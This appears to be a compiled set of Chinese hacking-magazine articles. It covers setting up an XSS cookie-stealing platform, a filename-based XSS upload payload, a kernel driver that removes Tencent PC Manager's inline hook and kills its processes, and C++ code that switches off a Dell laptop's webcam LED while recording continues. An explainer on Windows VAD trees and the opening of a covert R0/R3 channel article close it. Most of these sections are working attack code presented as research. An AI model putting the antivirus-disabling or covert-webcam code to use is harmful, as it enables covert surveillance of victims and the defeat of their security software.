```apache
RewriteEngine on
RewriteRule ^([0-9a-zA-Z]{6})$ index.php?do=code&urlKey=$1
RewriteRule ^do/auth/(\w+?)(/domain/([\w\.]+?))?$ index.php?do=do&auth=$1&domain=$3
RewriteRule ^register/(.*?)$ index.php?do=register&key=$1
RewriteRule ^register-validate/(.*?)$ index.php?do=register&act=validate&key=$1
RewriteRule ^login$ index.php?do=login
```

## SAE 新浪云的搭建

SAE 已经为我们封装好了代码，申请一个 SAE 云创建，在此项目上传代码，按照下面的步骤安装即可。

- 1. 导入数据库文件；
- 2. 执行 SQL 替换数据库中所写的 xsser.me：`UPDATE oc_module SET code=REPLACE(code, 'http://xsser.me', 'http://你懂的.sinaapp.com');`
- 3. 修改配置文件中的发送邮件的邮箱和密码（`config.php` 文件倒数 2～3 行）；修改 `$config['urlroot']` 为你的域名；
- 4. 确定已经初始化了 SAE 上的 MySQL 和 Memcache。

## image upload xss 漏洞利用分析

文/图 haxsscker

首先我们来看一下这个漏洞的介绍。简单地说，由于上传时没有对文件名进行重命名，导致可以在文件名里面写入 XSS 代码，下面我们进行实例演示。

首先我们创建两个文件，photo.html 用于上传，photo.php 用于接收和显示，下面是代码。

```html
//photo.html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>上传图片</title>
</head>
<body>
<div align="center"><h1>请选择图片</h1></div>
<form action="photo.php" method="post" enctype="multipart/form-data">
    <div align="center">
        <input name="upload_file" type="file" size="20">
        <input name="Submit" type="submit" value="提交">
    </div>
</form>
</body>
</html>
```

```php
//photo.php
<?php
error_reporting(0);
$dir = "./";
$tmp_name = $_FILES['upload_file']['tmp_name'];
$actual_name = $_FILES['upload_file']['name'];
$size = $_FILES['upload_file']['size'];
$type = $_FILES['upload_file']['type'];
move_uploaded_file($tmp_name, $dir.$actual_name);
echo "";
?>


```

注意：由于不想写过多代码，没有进行任何过滤，只要漏洞原理能说清楚就可以了。在 photo.html 随意选张图片上传，正常上传后的效果如图 1 所示，显示了图片，HTML 源码就是图片的地址。
图 1

利用 Burp 抓包，将文件名改为 `"onerror=\"alert(1)\" a=\".jpg`，图 2 由于没写数据库，就没管单引号的转义，写数据库时候注意下就是了。斜杠 `\` 进行引号的转义，让其正常输出为引号而不闭合。

```http
-----------------------------16906281579634
Content-Disposition: form-data; name="upload_file"; filename="\"onerror=\"alert('XSS')\" a=\".jpg"
Content-Type: image/jpeg


```

图 2

提交后，photo.php 显示出弹窗了，如图 3 所示。
图 3

我们看一下这里的 HTML 源代码，如图 4 所示，这样一个跨站代码产生了。
图 4

注意，这里只做了最简单的演示，直接显示了图片地址，真正的网站肯定是把这个地址插入数据库的，原理一样。

如果没有过滤，数据库会执行以下语句：

```sql
INSERT INTO `phish`.`web_list` (
  `id`,
  `webname`,
  `webaddr`,
  `dbname`
)
VALUES (
  NULL, '123', '"onerror=\"alert(1)\" a=\".jpg', '123'
)


```

我们再看下数据库，如图 5 所示。当网页读取数据库并重组 HTML 代码时，就会导致跨站产生了。
图 5

（完）

## 编程恢复腾讯电脑管家 XP 专版 Inline Hook

### 程序分析

文/图 弗相辰

2014 年 4 月 8 日，微软不再为 Windows XP 提供相应的支持和更新。这个系统见证了我们这一代人的青春，十年前我们盼青春，十年后我们致青春，那经典的蓝天白云桌面是我们永不磨灭的记忆。说实话，Windows XP 能坚持到今天，在受摩尔定律支配的 IT 行业，是一个前无古人的奇迹。但当我们和它说再见时，却发现，目前在我国 XP 的市场份额依旧高达 54.13%，而 Win7 排在第二，占 38.01%，Win8 只占 2.56%，个人用户安装和使用 XP 的计算机将近 2 亿台。显而易见，这些用户面临着严峻的安全形势。

引用一段报道。4 月 5 日，某公司发起一场“XP 挑战赛”。200 多名黑客发起对腾讯电脑管家 XP 专版、360 安全卫士 XP 盾甲、金山毒霸 XP 防护盾的挑战。

有关这个事件，媒体的报道也是众说纷纭，莫衷一是。对于学习 Windows 内核的我来说，最好的方法是自己动手去研究。我在腾讯电脑管家官网上下载了 XP 专用版本（版本号 8.11.11378，截至到发稿时最新版本 8.11.11477，本程序仍然适用），安装到虚拟机中，分析电脑管家对内核所做的修改。

我们知道，Windows XP 系统通过 SYSENTER 指令来切入内核，到达内核入口 KiFastCallEntry 函数。在虚拟机中启用 WinDbg 来调试该函数。

```asm
LKD> UF KIFASTCALLENTRY

FLOW ANALYSIS WAS INCOMPLETE, SOME CODE MAY BE MISSING

*** ERROR: MODULE LOAD COMPLETED BUT SYMBOLS COULD NOT BE LOADED FOR TSFLTMGR.SYS

NT!KIBBTUNEXPECTEDRANGE:

8053E352 83F910          CMP     ECX,10H
8053E355 7539            JNE     NT!KIBBTUNEXPECTEDRANGE+0X3E (8053E390)
……                    ……
NT!KIFASTCALLENTRY+0XCC:
......        ......

8053E646 90                 NOP                      // 钩子位置
8053E647 90                 NOP
8053E648 90                 NOP
8053E649 E9C25D3079         JMP          TSFLTMGR+0X2410 (F9844410)

......        ......

TSFLTMGR+0X2410:

F9844410 9C                 PUSHFD
F9844411 60                 PUSHAD
F9844412 57                 PUSH         EDI
F9844413 53                 PUSH         EBX
F9844414 50                 PUSH         EAX
F9844415 FF15506285F9       CALL         DWORD PTR [TSFLTMGR+0X14250 (F9856250)]
F984441B 89442410           MOV          DWORD PTR [ESP+10H],EAX
F984441F 61                 POPAD
F9844420 9D                 POPFD
F9844421 8BFC               MOV          EDI,ESP
F9844423 3B35A86685F9       CMP          ESI,DWORD PTR [TSFLTMGR+0X146A8 (F98566A8)]
F9844429 FF35C06685F9       PUSH         DWORD PTR [TSFLTMGR+0X146C0 (F98566C0)]
F984442F C3                 RET
```

可以看出，钩子的位置正是 8053E646 地址处的四句，直接跳转到系统流程之外，也就是电脑管家驱动模块的加载位置。个人猜测是由 TSFLTMGR.SYS 实现了挂钩，进而调用电脑管家其他的一些驱动。从名字上看，这些驱动涉及了 IE 保护、磁盘保护、主动防御、网络监控、ARP 防御等方面，应该说还是比较全面的。

接下来看挂钩位置：

```asm
LKD> U 8053E646

NT!KIFASTCALLENTRY+0XE6:

8053E646 90                 NOP
8053E647 90                 NOP
8053E648 90                 NOP
8053E649 E9C25D3079         JMP        TSFLTMGR+0X2410 (F9844410)
8053E64E 0F83A8010000       JAE        NT!KISYSTEMCALLEXIT2+0X9F (8053E7FC)
8053E654 F3A5               REP MOVS DWORD PTR ES:[EDI],DWORD PTR [ESI]
8053E656 FFD3               CALL       EBX
8053E658 8BE5               MOV        ESP,EBP
```

虽然各个电脑上的挂钩地址不一定就是 8053E646，但可以确定挂钩位置是在 KiFastCallEntry+0xE6 处，那么原系统在这个位置是什么样子呢？

```asm
LKD> U NT!KIFASTCALLENTRY+0XE6
NT!KIFASTCALLENTRY+0XE6:
8053E646 8BFC               MOV        EDI,ESP
8053E648 3B35549A5580       CMP        ESI,DWORD PTR [NT!MMUSERPROBEADDRESS (80559A54)]
8053E64E 0F83A8010000       JAE        NT!KISYSTEMCALLEXIT2+0X9F (8053E7FC)
8053E654 F3A5               REP MOVS DWORD PTR ES:[EDI],DWORD PTR [ESI]
......                      ......
```

好了，编程摘除这个钩子的基本思路就是恢复系统原始的 8053E646—8053E64D 处的指令。此外，在编程过程中需要如下两个函数的地址：KiFastCallEntry、MmUserProbeAddress。

对于查找 KiFastCallEntry 地址，可以采用 SYSENTER 相关的原理。与 SYSENTER 指令相关的有三个 MSR 寄存器：IA32_SYSENTER_CS、IA32_SYSENTER_ESP、IA32_SYSENTER_EIP。

这三个寄存器可以通过指令 RDMSR/WRMSR 来进行读写。寄存器地址分别是 174H、175H、176H。当执行 Sysenter，处理器会做下面的动作：

- 1. 从 IA32_SYSENTER_CS 中取出段选择子加载到 CS 中。
- 2. 从 IA32_SYSENTER_EIP 取出指令指针放到 EIP 中。
- 3. 将 IA32_SYSENTER_CS 的值加上 8，将其结果加载到 SS 中。
- 4. 从 IA32_SYSENTER_ESP 取出堆栈指针放到 ESP 寄存器中。
- 5. 切换到 R0 层。
- 6. 若 EFLAGS 中 V 标志已被置，则清除 V 标志。
- 7. 开始执行 EIP 处的系统过程。

因为切换到 R0 层首先读取 EIP 信息，又因为读取指令 RDMSR 是将寄存器的内容从高位到低位保存到 EDX:EAX 中，因此，可以这样获取 KiFastCallEntry 函数地址：

```c
ULONG OrigKiFastCallEntry = 0;

_asm mov ecx,0x176;
_asm rdmsr;
_asm mov OrigKiFastCallEntry,eax;
```

而对于 fnMmUserProbeAddress 函数，我采用了内核 API MmGetSystemRoutineAddress 函数来获取地址。

还有一点，就是在写入内存之前，要去除写保护，可以采用把 CR0 寄存器的 WP（Write Protect）位设置为 0 的方法，写完之后再恢复。

驱动程序中摘钩代码如下：

```c
VOID HookQQPCMGR()
{
    UNICODE_STRING ustrFunName = RTL_CONSTANT_STRING(L"MmUserProbeAddress");
    PVOID fnMmUserProbeAddress = MmGetSystemRoutineAddress(&ustrFunName);
    // 获取 MmUserProbeAddress 地址
    ULONG OrigKiFastCallEntry = 0;
    _asm mov ecx,0x176;
    _asm rdmsr;
    _asm mov OrigKiFastCallEntry,eax; // 获取 KiFastCallEntry 地址
    UN_PROTECT(); // 去除写保护
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe6) = 0x8b; // 依次对挂钩位置赋值
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe7) = 0xfc;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe8) = 0x3b;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe9) = 0x35;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xea) = (ULONG)fnMmUserProbeAddress;
    RE_PROTECT();// 恢复写保护

    return STATUS_SUCCESS;
}
```

接着我又完成了可与用户层交互的完整驱动程序，使用 WDK 7600.16385.1 的 Windows XP x86 Checked Build Environment 编译。

在用户层控制程序方面，由服务加载驱动，服务启动成功后进行挂钩和摘钩的控制，由 VC++6.0 编译，关键代码如下：

```c
BOOL HookQQPCMGR()
{
    HANDLE m_hDevice = CreateFile("\\\\.\\HookQQPCMGREX",
                                  GENERIC_READ | GENERIC_WRITE,
                                  0,
                                  NULL,
                                  OPEN_EXISTING,
                                  FILE_ATTRIBUTE_SYSTEM,
                                  NULL);

    if ( m_hDevice == INVALID_HANDLE_VALUE )
    {
        return 0;
    }

    DWORD dwRet = 0;

    if(DeviceIoControl(m_hDevice, IOCTL_ON, NULL, 0, NULL, 0, &dwRet, NULL)) // 挂钩
        puts("Hook 成功");
    else
    {
        puts("Hook 失败，任意键退出");
        getchar();
    }

    exit(1);

    killQQPCMGR(); // 结束管家所有进程

    DWORD dwRet2 = 0;

    if(DeviceIoControl(m_hDevice, IOCTL_OFF, NULL, 0, NULL, 0, &dwRet2, NULL)) // 摘钩
        puts("UnHook 成功");
    else
    {
        puts("UnHook 失败，任意键退出");
        getchar();
        exit(1);
    }

    CloseHandle(m_hDevice);

    return TRUE;
}


```

这段程序是当服务加载成功后执行的，其中的 killQQPCMGR() 函数是枚举进程、匹配进程名、提升权限、结束进程的常规 R3 层方法。当然也可以单独编译以上程序，由 KmdManager 加载驱动来执行。

经过我的两台 XP 虚拟机的测试，本程序均可达到预期目的。

需要说明的是，本文和程序旨在促进 Windows 系统安全技术的提高，绝不是给某些“黑客”提供技术支持，因此本程序每执行一步都给出提示，需要输入才能执行下一步；程序只结束了进程，并未删文件，重启电脑之后可恢复原样。

### 结语

无论是安全软件的挂钩，还是我们去恢复钩子，本质上都是 Rootkit 技术。就像一把宝剑，可以去防身，也可以去攻击别人。由于用户在大多数情况下总是先安装安全软件，所以安全软件占领了系统的“高地”，处于有利位置，封锁了常见的驱动入口，也使得最近以来 Rootkit 病毒不再肆虐了，但我们绝对不能掉以轻心。

分析安全软件所采用的技术，起初是工作在用户层，自 2007 年初熊猫烧香事件后，纷纷转入内核层，代表技术就是 Hook SSDT。然而好景不长，一大波可以恢复 SSDT 的病毒木马，如灰鸽子，接踵而至。2010 年之后，安全软件加载自己的驱动后，又开始对系统作起了 Inline Hook，改变了系统执行流程，就像本例中的腾讯电脑管家一样，这就进一步提高了安全软件的自我保护强度。由于各个安全软件的 Inline Hook 不尽相同，只有准确找到钩子的位置并恢复之，才有可能结束它。寻求一种通用的方法越来越困难了，除非出现了更底层的技术。

还有一个问题，就是加载驱动时管家会有提示，但这也难不倒聪明的黑客，他们当然可以去研究如何绕过加载提示，但有时技术上不好解决的问题，略施社会工程学的小计，比如披上一层诱惑的外衣，会令绝大多数非专业的网民做出错误的决定。要知道，再厉害的安全软件，也是由人来操纵的。

这场魔与道的争锋永远不会停止，在一次次的对抗当中，我们的信息安全技术才有了一次次的提升。目前高级的 Rootkit 病毒也采用了 Inline Hook 技术，这就使得从 Windows 内核到硬件的道路上，谁隐藏得越深越隐蔽，谁就是胜利者。对于安全工作者来说，该 Inline Hook 异常重要。就本文的事例来说，一旦该钩子被恢复，安全软件的所有保护全部失效，因此注意隐藏钩子的位置，增加钩子的深度、强度，让黑客无从下手，才达到了目的。

对于广大还在使用 Windows XP 系统电脑的网民来说，还是要相信几大安全厂商做出的承诺，及时安装安全软件，定期升级，定期查杀系统，及时安装厂商发布的漏洞补丁。此外，还要更加注意自己的上网习惯，不上具有诱惑力的网站，不去下载可疑文件，打开下载文件之前先查杀，方能最大限度地确保自己的电脑无虞。

最后，感谢《黑客防线》杂志以及市面上一些相关书籍，使我入门 Windows 内核领域。在编写过程中，犯过许多错误，但加深了我对 Windows 内核编程的认识，对我来说颇具意义。希望在《黑客防线》杂志的指引下，我会有进一步的提高，也希望《黑客防线》杂志越办越好。

## 编程实现关闭 LED 指示灯远程启动摄像头

文/图 李旭昇

在去年年底的一则新闻中，FBI 抓获了一位通过笔记本摄像头偷拍并勒索受害者的犯罪分子。值得注意的是，受害者从未注意到自己笔记本摄像头上的 LED 指示灯亮起，因此也难以察觉自己一直在被偷拍。此后不久，FBI 的前操作技术部门雇员 Marcus Thomas 向媒体爆料称，FBI 早在几年前就已经掌握了在不点亮 LED 指示灯的情况下，远程启动摄像头的方法。

LED 指示灯真的可以在摄像头工作时关闭吗？笔者决定一探究竟。

从理论上来说，作为一项重要的安全与隐私特性，LED 指示灯应该被设计成硬件功能。当图像采集模块工作时，LED 指示灯就被点亮，这样黑客就无能为力了。除此之外，即使 LED 灯由固件控制，都有被攻破的可能。

知己知彼方能百战不殆。由于笔者先前未涉猎过摄像头开发，所以只好从摄像头的基本编程开始补课，也顺便寻找一些蛛丝马迹。MSDN 中对摄像头的使用作了详细的介绍。简单来说，Windows 借助消息机制对摄像头进行了精心的封装。应用程序无需处理各种通信细节，只需创建一个“捕获窗体”（Capture Window），并通过消息与其交互便可以完成图像的采集和参数的控制。不出所料，文档中没有任何与 LED 指示灯有关的信息。实验表明，当调用有关函数（事实上是宏，最终会向捕获窗体发送消息）开始图像采集时，LED 指示灯会自动亮起；当结束图像采集时，LED 指示灯会自动关闭。

节，我们还需深入一些。

接下来的目标是 DELL 自带的摄像头控制软件。通常，笔记本自带的控制软件都会提供更丰富的控制，比如在图像中添加画框等等。如果它能够关掉 LED 指示灯，我们只需对其进行逆向便可以解开其中的奥秘。功夫不负有心人，在控制程序所在目录下，笔者发现了 CTVidHand.dll，其导出函数出现了 SetLEDControl 字样，如图 1 所示。
图 1 CTVidHand.dll 的导出函数

这个函数立刻引起我的注意。事实上，它极有可能是控制 LED 灯开关的关键。然而调试的结果却又令人失望，SetLEDControl 的断点未曾命中，但是 LED 指示灯已经亮起。如图 2 所示，我翻看了 SetLEDControl 和几个相关函数的代码，没有发现任何有价值的线索。
图 2 SetLEDControl 函数的代码

莫非 SetLEDControl 函数是有意设下的陷阱？如果不是，这个函数有什么作用？笔者在思考过程中无意触发了延时拍照功能，3 秒过后，LED 灯变为闪烁状态，并伴随着提示音。拍照结束后，LED 灯又恢复到常亮状态。原来 LED 灯真的可以改变状态。

笔者重新设置了 SetLEDControl 的断点，然后再次进行延时拍照。3 秒过后，LED 灯并没有开始闪烁——断点命中了！欣喜之余，笔者立刻查看 SetLEDControl 的反汇编 C 代码。它只接受一个参数，而此时栈上 [esp+4] 的值是 4。按 F9 继续执行后，LED 灯开始闪烁并完成拍照。紧接着断点再次命中，此时 [esp+4] 的值是 1。我推测该值就是 LED 灯的状态。既然 1 是常亮，4 是闪烁，那么 0 很可能表示关闭。我将 [esp+4] 的值改为 0 并按 F9 继续执行。此时 LED 灯果然关闭了，而且画面还可以正常显示。

但是好景不长，LED 灯很快又恢复了常亮状态。不过我马上反应过来，结束拍照后，控制程序将 LED 灯设为常亮状态可能还有其他办法，我们最初的断点没有命中也可以佐证这一点。至于这只是编程中的缺陷，还是有意设置的障碍，我没有细究，因为现在已经找到了可以设置 LED 的办法。事实上，0 表示关闭，1 表示常亮，2-6 都是闪烁，且频率依次加快。不过这样守株待兔地修改函数参数实在不方便，笔者用 CreateRemoteThread 直接调用 SetLEDControl（和 CreateLEDControl）函数，就可以实现对 LED 灯的完全控制。

不过问题并没有结束。SetLEDControl 是如何实现对 LED 灯的控制的？这种方法在没有安装该控制软件（和相应驱动程序）的笔记本上是否适用？通常的摄像头，包括笔记本内置的摄像头，都是 USB 设备，并且遵从 UVC 标准（USB Video Camera）。这个标准极大地提高了 USB 摄像头的通用性。由于操作系统为 UVC 设备提供了统一的类驱动（图 3 为 Windows 系统的 usbvideo.sys），所以用户不必再为摄像头安装驱动程序。usbvideo.sys 之上可能有若干厂商提供的过滤驱动，用于实现更复杂的功能或更精细的控制。
图 3 usbvideo.sys 等驱动

为了搞清 SetLEDControl 的工作原理，我们先分析它与上层驱动的通信，即分析 DeviceIoControl 的调用；如果分析出的通信过程与厂商有关，我们就需要进一步研究上层过滤驱动与下层 usbvideo.sys 的通信过程，进而尝试找出控制 LED 灯的一般方法。由于 UVC 标准中并未对 LED 灯明确规定，不同厂商的控制方法都包含在其控制软件中，我们只能尽可能地缩小查找范围，给出找到有关控制细节的方法。

为了监控控制程序与驱动程序的通信，我们借助 API Monitor 工具监控 DeviceIoControl 的调用情况。由于控制程序对 DeviceIoControl 的调用十分频繁（比如读取图像等等），无法找到关键的某次调用，所以这里需要用到一点技巧。我们首先在 API Monitor 中设置好 DeviceIoControl 的监控，随后用调试器挂在控制程序。在控制程序命中 SetLEDControl 断点时，不断跟进直到即将调用 DeviceIoControl。这时我们激活 API Monitor 中的中断并在调试器中继续执行，这样 API Monitor 会在 DeviceIoControl 被调用时将控制程序中断下来。根据我们的操作，记录下来的第一次调用就是 SetLEDControl 产生的 DeviceIoControl 调用。
图 4 API Monitor 记录到的关键 DeviceIoControl 调用的各项参数

这里 hDevice 为设备句柄，我们在 Process Explorer 中查看句柄可以发现它指向的文件对应摄像头的设备路径。dwIoControlCode 是 IOCTL_KS_PROPERTY，其 lpInBuffer 中包含 KSPROPERTY 结构和附加的信息，其定义为：

```c
struct KSPROPERTY {
    GUID  Set;
    ULONG Id;
    ULONG Flags;
};


```

观察 API Monitor 记录下来的 Buffer（图 5）可以发现，Flags 为 0x10000002，包含了 KSPROPERTY_TYPE_SET 标志，表示设置属性。lpOutBuffer 中就是 LED 灯的控制状态，设为 0 就可以将其关掉。
图 5 API Monitor 记录的 lpInBuffer

由此我们基本搞清了 LED 灯的控制方法，以下代码可以实现关闭 LED 灯或将其设为任意状态。

```cpp
int main() {
    HKEY hkey = NULL;
    if (RegCreateKeyEx(HKEY_LOCAL_MACHINE,
        L"SYSTEM\\CurrentControlSet\\Control\\MediaResources\\msvideo\\MSVideo.VFWWDM",
        NULL, NULL, NULL, KEY_READ, NULL,
        &hkey, NULL) != ERROR_SUCCESS)
    {
        cout << "Fail to open key:" << GetLastError() << endl;
        getchar();
        return 0;
    }

    WCHAR DevicePath[MAX_BUF] = { 0 };
    DWORD lpcbData = MAX_BUF;
    RegQueryValueEx(hkey, L"DevicePath", NULL, NULL,
        (LPBYTE)DevicePath, &lpcbData);
    wcout << DevicePath << endl;

    HANDLE hUSBCam = CreateFile(DevicePath, GENERIC_READ | GENERIC_WRITE,
        0x00000000, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    cout << hUSBCam << endl;

    if (INVALID_HANDLE_VALUE == hUSBCam)
    {
        cout << "Fail to open USB webcam, exiting..." << endl;
        getchar();
        return 0;
    }

    CHAR buf[1024] =
        "\xc3\x85\xb8\x0f\xc2\x68\x47\x45\x90\xf7\x8f\x47\x57\x9d\x95\xfc\x02\x00\x00\x00\x02\x00\x00\x10\x02\x00\x00\x00";
    CHAR OutBuf[24] = { 0 };
    DWORD BytesRet = 0;

    while (true)
    {
        for (int i = 0; i <= 0xf; i++)
        {
            buf[24] = i;
            DWORD ret = DeviceIoControl(hUSBCam, IOCTL_KS_PROPERTY, buf,
                1024, &OutBuf, 4, &BytesRet, NULL);
            if (ret != NULL)
            {
                cout << "DeviceIoControl done with buf[24]=" << i << endl;
                goto NEXTStatus;
            }
            else if (GetLastError() != 1170)
            {
                cout << "DeviceIoControl failed: " << GetLastError() << endl;
            }
        }

    NEXTStatus:
        cin >> OutBuf;
        OutBuf[0] -= ('0');
    }

    getchar();
    return 0;
}


```

经笔者实验（如图 6 和图 7 所示），以上代码适用于 DELL 笔记本。对于其他品牌的笔记本，KSPROPERTY 结构中的 GUID 可能是不同的，所以不能实现完全通用。不过只需预先（或者动态地）获得该值，就可能关闭任意笔记本电脑的 LED 灯。
图 6 LED 指示灯正常工作
图 7 LED 指示灯关闭，但是摄像头仍在工作

本文指出了笔记本内置摄像头 LED 指示灯存在的安全漏洞。此外，笔者注意到市场上销售的外置 USB 摄像头通常没有 LED 指示灯。希望厂商能够重视用户隐私，将 LED 指示灯控制改为硬件功能。当然，在各大厂商终于决定做出改变之前，我们有一个简单的解决办法：用胶布将摄像头粘起来。

## Windows 用户空间的内存管理

文/图 王晓松

曾经有部国产电影叫做《一棵树》，由奚美娟主演，根据真人真事改编，讲的是一个人在沙漠里种树的故事。种树是件很有意义的事情，坚持不懈，一棵树就可以变成一片森林。今天我们探讨的题目是关于 Windows 中用户地址空间的管理，从某种角度来说，就是对一棵树的管理。

在 Windows API 中，分配内存的函数是 VirtualAlloc 函数，其典型的用法是：

```c
PVOID VirtualAlloc(pvAddress, dwSize, fdwAllocationType, fdwProtect)
```

这个函数很简单，参数 pvAddress 和 dwSize 指明要求分配的地址的起始位置和长度，如果对起始地址没有要求的话，可以直接将参数 pvAddress 置为 NULL，表示有满足长度要求就可以。参数 fdwAllocationType 告诉系统这块区域是保留（Reserve）还是提交（Commit），两者之间的区别我们后面会讲到。参数 fdwProtect 指明的是页面的保护属性。

这个函数一个典型的用法如下所示：

```c
Void *pMem = VirtualAlloc(NULL, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
```

这段代码声明请求一段长度为 4096 字节的内存块，其分配的类型为保留及提交，页面的保护属性为可读写。

我们知道，用户地址空间为 2G，范围是 [0, 0x7fffffff]。这段地址空间以 4K 字节为单位划分成一个一个的页面，一个页面的状态分为空闲、保留和提交三种。保留和提交两种状态的区别会在本文的末尾进行详细的说明，暂时我们可以认为页面分为空闲和占用两种状态。一个进程启动后，会频繁地申请内存、释放内存，页面的状态也会在空闲和占用两种状态中不停地变换。由于申请和释放的内存是随机的，因此本来一段连续的内存经过一段时间后，会变成空闲/占用/空闲……犬牙交错的模样。这样当我们要申请一段特定长度的内存，或者应用程序对一段地址读写而需要验证这段地址是否已经分配（如果没有分配，显然读写这段地址是有问题的）时，就需要提供一种相对高效的方式，来对内存的分配情况进行管理。如果学习过数据结构，很自然我们会想到引入“树”的模式，对于一个线性地址空间，将其中各个区段组织成树的形式，可以大大提高查找的效率。

在 Windows 系统中这棵所谓的树就是 VAD 树，这棵树的每个节点都是一个 VAD（Virtual Address Descriptor）对象，VAD 对象描述了一段连续的地址空间，而对这棵树管理的算法称为 AVL 算法，这个算法的名字是以发明这个算法的三位发明人的名字命名。简单地说，构成这棵树的节点是 VAD 对象，而使用 AVL 算法管理这棵由 VAD 节点构成的树。每个进程的 VAD 树的根节点都存放在对应该进程 _EPROCESS 数据结构的 VadRoot 成员里，虽然被管理的对象是用户空间的地址，但是管理结构是在内核地址空间中。

```c
typedef struct _EPROCESS {
    ......
    MM_AVL_TABLE VadRoot;
    ......
}
```

VAD 节点对应的数据结构并不复杂，有一个指向父节点的指针 *Parent，除此以外还有两组关键的成员，如下所示：

```c
typedef struct _MMADDRESS_NODE {
    union {
        LONG_PTR Balance : 2;
        struct _MMADDRESS_NODE *Parent;
    } u1;
    struct _MMADDRESS_NODE *LeftChild;
    struct _MMADDRESS_NODE *RightChild;
    ULONG_PTR StartingVpn;
    ULONG_PTR EndingVpn;
} MMADDRESS_NODE, *PMMADDRESS_NODE;


```

其中 LeftChild 和 RightChild 成员指明的是该节点的左、右子节点，而 StartingVpn 和 EndingVpn 成员指明的是该节点表示的区域所对应的虚拟地址范围，其中 VPN 中的内容为虚拟地址的帧号。一个进程的用户地址空间为 2G，每个页面的大小为 4K，则共有 512K 个虚拟地址号。举个例子，比如虚拟地址是 0x12345678，那么其 VPN 号码为将该地址右移 12 位，结果是 0x12345。一个典型的 VAD 树如图 1 所示：
图 1 一个 VAD 树示意

构成这棵树的基本元素（VAD 对象）已经明了，但是 AVL 算法对这棵树的管理还是比较严格的。首先需要将这棵树组成二叉树的形式，这个不难理解，即一个 VAD 节点只能有两个子节点，并且左子节点的地址范围必须小于本节点，右子节点的地址范围必须大于本节点。除此以外，为了避免出现左右两部分失衡的情况，AVL 算法要求满足任何一个节点左子树的深度与右子树的深度相差小于 2，即不会出现一个节点的左子树深度是 1，而同时该节点右子树深度为 3、4、5……等等这种失衡情况。如果出现这种情况，就要对这棵树进行左旋或者右旋的操作，直到满足左右子树深度小于 2 的条件。

一个例子如图 2 所示，进程用户空间共有 13 个页面，其中 1、4、7、8、9、11、12 为已经使用。那么针对这种情况，组织起来的 AVL 树就如图 2 中左半部分所示。当我们要确定一段内存的使用情况，就可以直接使用这棵树，从根节点开始，沿着树的分叉进行快速查找，显然这种树的组织结构其查找效率要远远高于线性查找。关于 AVL 树的更多资料，大家可以查阅相关资料，这里就不赘述了。
图 2 一个满足 AVL 算法要求的 VAD 树

通过上面的介绍，我们看到通过 VAD 树，可以快速地找到一段地址确定其是否已经占用，但是如果同样使用树的结构来分配一段新的地址，单纯使用 VAD 树并不是最佳的选择。为此 Windows 还提供了 VAD 位图。如果大家有印象的话，在“Windows 系统地址空间的创建”一文中会看到，在进程的创建之初就专门预留了一个 VAD 位图页面。VAD 位图的概念非常简单，该位图中的每一位代表用户地址空间中的一段 64K 大小的区间，并且从地址 0 开始，顺序排列。当该位为 1 时，表示该段 64K 大小的地址范围已经占用；如果该位为 0，则是空闲的。很明显，使用这种方式，通过扫描位图中连 0 的数量，即可以帮助我们快速地找到一段空闲的区域，如图 3 所示。当然申请到一段地址后，除了修改 VAD 位图之外，同时要修改 VAD 树的结构，这样也便于以后对该段地址的管理，如查找、删除、修改等动作。
图 3 VAD 位图的使用

在前面关于 VirtualAlloc 函数的说明中，其中一个参数 fdwAllocationType 需要说明对申请的内存是保留（Reserve）还是提交（Commit），关于这两个状态的区别经典的书籍通常会解释为：保留指的是将这段地址保留起来，但并不真正使用；而提交指的是这段地址终究要消耗内存，因此在页面被访问时，一定要先映射到物理内存中。看过让人似懂非懂，深入思考下去，两者之间本质的区别在哪里呢？或者说，使用这两种参数对内存申请，系统幕后具体做了哪些工作呢？

前面提到，进程用户空间的页面可以分为三种状态（注意这里指的虚拟地址范围）：空闲、保留和提交。空闲状态的页很容易理解，就是没有被使用的。而我们在使用 VirtualAlloc 函数申请一段地址时，经常会在参数中指明是保留（Reserve）还是提交（Commit），或者是两者兼有（Reserve | Commit）。实际上，可以认为保留是提交的一个先期动作，一个页面必须先保留再提交。保留只是在用户空间声明一段区域，但并没有对该段区域进行真正的物理映射，而提交则是完成真正的映射。为了更加清楚地理解两者之间的区别，我们看看两者幕后所做的工作：

- **保留（Reserve）：**需要在该进程的 VAD 树中找出一段满足需求的空闲区域，并对树的结构进行相应的调整，这样这段地址就会被标记为已用，进程以后再对该段地址申请就会报错。因为使用树的结构，定位该块地址的速度就会较快。在更改 VAD 树结构的同时，还需要修改与该段地址对应的 VAD 位图中的内容。
- **提交（Commit）：**需要建立相应的页表映射，由该地址段占用的虚拟地址定位到页表中的对应项，但是此时仍然没有调拨真正的物理页面，只是将对应的 PTE 填写为指向页面文件中页面的无效页。只有等到对该页上的内容进行操作时，才真正建立物理页面的映射，映射真正的页面。
- **实际分配物理内存阶段：**当这段地址被读写时，由于 PTE 的内容为无效，那么就会进入 Windows 中页面错误的处理流程中，此时会分配真正的内存，并填写 PTE 中的内容，完成真正的物理页面映射。如果这段地址一直没有被使用，那么也就一直没有分配真正的内存，宝贵的内存得到了节约。
**当该页面被使用时，真正地完成物理页面的映射**

通过上面两个步骤的分析，我们可以看到，在对用户空间地址分配的过程中，操作系统可谓机关算尽，尽量推迟物理页面的真正映射，目的就是为了节约宝贵的内存资源。

## 借助注册表回调实现 R0 与 R3 隐蔽通信

文/图 李旭异

无论对于安全软件或是恶意程序，Ring3 与 Ring0 间的通信都必不可少。一般来说，开发者会将大部分的逻辑交由 Ring3 程序执行，Ring0 只负责按照 Ring3 的“旨意”完成特定的任务。在这种模型下，Ring3 与 Ring0 间的通信就成为潜在的攻击目标。如果攻击者可以搞清楚 Ring3 与 Ring0 间的通信协议，则完全可能理解其工作原理，甚至进一步破坏其功能。对通信协议进行加密可以防止攻击者窥探机密信息，但无法抵抗攻击者完全中断 Ring3 与 Ring0 间的通信。这种威胁是十分现实的，《黑客防线》已刊登过阻止冰刃 Ring0-3 通信进而破坏其功能的文章。

